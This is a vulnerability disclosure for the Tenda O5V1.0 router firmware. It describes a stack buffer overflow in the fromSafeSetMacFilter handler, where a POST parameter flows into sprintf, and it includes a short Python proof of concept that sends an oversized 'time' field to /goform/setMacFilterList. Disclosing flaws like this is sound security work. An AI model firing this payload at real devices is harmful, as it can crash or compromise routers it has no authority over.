 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2833.html

## Affected version

O5V1.0 V1.0.0.8(5017)

## Vulnerability details

The Tenda O5V1.0 V1.0.0.8(5017) firmware has a stack overflow vulnerability in the `fromSafeSetMacFilter` function. The `v81, v78, v75` variable receives the `remark, type, time` parameter from a POST request. However, since the user can control the input of `remark, type, time`, the statement `sprintf` can cause a buffer overflow. The user-provided  `remark, type, time` can exceed the capacity of the `v21` array, triggering this security vulnerability.

![image-20240801132730120](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801132730120.png)

![image-20240801131835096](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801131835096.png)

![image-20240801131909571](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801131909571.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setMacFilterList"
payload = b"a"*5000

data = {"action": "add", "time": payload}
response = requests.post(url, data=data)
```
